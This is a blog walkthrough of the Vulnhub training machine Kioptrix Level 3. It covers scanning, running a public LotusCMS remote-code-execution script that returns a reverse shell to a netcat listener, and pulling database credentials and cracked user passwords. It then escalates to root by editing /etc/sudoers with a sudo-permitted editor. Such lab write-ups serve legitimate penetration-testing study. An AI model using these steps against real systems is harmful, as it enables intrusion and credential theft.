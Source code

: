 ```yaml
---
weigth: 1
title: "Kioptrix Level 3 Walkthrough"
date: 2023-08-25T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-08-25
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources: 
- name: "featured-image"
  src: "preimagenKioptrix3.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix Level 3

## Machine Resolution

### Scanning and Vulnerability Analysis

We start with a scan of our local network with the arp command to obtain the ip of our target machine.
```bash
arp-scan -I eth0 --localnet
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled.png)

Once the ip is obtained we proceed to perform a scan with nmap.
```bash
nmap -sCV 192.168.66.161
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-25 13:37 EDT
Nmap scan report for kioptrix3.com (192.168.66.161)
Host is up (0.0099s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.34 seconds
```

After scanning with nmap we see that port 80 is open with an http service so let's see what it contains using our browser in this case Firefox and we see the following website.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%201.png)

In the description of the machine tells us to add the domain [kioptrix3.com](http://kioptrix3.com) to our file /etc/hosts to be able to see the web so we open it and add the following:
```bash
192.168.66.161  kioptrix3.com
```

### Exploitation

After surfing the site we can see that the web is made with LotusCMS.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%202.png)

So we went to Google to find out if there is any exploit for this CMS and we found the following:

https://github.com/Hood3dRob1n/LotusCMS-Exploit

we clone it to our machine and run

```bash
./lotusRCE.sh kioptrix3.com /

#Enter our ip
192.168.66.152 
#Port
4444
#In another terminal start netcat
nc -nlvp 4444
#select option 1
1
#we have a  shell
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.161] 38651
whoami
www-data
```

We performed a tty treatment to work more comfortably and to be able to do Ctrl+C.
```bash
script /dev/null -c bash
stty raw –echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows <num> columns <cols>
```

After enumerating for a while we found the file gconfig.php in /home/www/kioptrix3.com/gallery which contains some credentials to the database.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%203.png)

we log into mysql:
```bash
mysql -uroot -pfuckeyou
```

And we obtain the credentials of the admin user but after a few attempts it does not help us to change the user.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%204.png)

We log into phpmyadmin with the credentials obtained previously.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%205.png)

and locate the hashes of the machine's users
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%206.png)

I have used an online website to crack these hashes by obtaining the password in clear text.

[https://crackstation.net/](https://crackstation.net/)

Dreg

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%207.png)

loneferret

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%208.png)

```bash
dreg:Mast3r
loneferret:starwars
```

Once we have obtained the credentials we connect via SSH but we get an error.


![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%209.png)

To solve it we write the following to connect:

```bash
ssh  -oHostKeyAlgorithms=+ssh-dss loneferret@192.168.66.161
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2010.png)

### Privilege Escalation

If we read the CompanyPolicy.README file it tells us that they have installed new software to edit, create and view files and to use the command "sudo ht".

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2011.png)

With sudo -l we see that we have permissions to run it.

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2012.png)

if we execute it at first we will get an error so we have to execute the following:

```bash
export TERM=xterm
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2013.png)

And run it:

```bash
sudo ht
```

To open a file, use the ALT+ F keys and select the open field:
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2014.png)

We are going to edit the file /etc/sudoers to be able to launch a shell as root and thus escalate privileges.

To do this, type /etc/sudoers and hit enter.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2015.png)

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2016.png)

We add the following command followed by the existing commands to the user loneferret so that he can execute it with sudo.
```bash
, bin/sh
```

![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2017.png)

Press ALT + F to save and exit.
![Untitled](Kioptrix%20Level%203%20a28a8584e1744d7b9cf66aee3b0a2dd4/Untitled%2018.png)

We get a shell as root:
```bash
loneferret@Kioptrix3:~$ sudo sh
# whoami
root
```
Happy Hacking :)
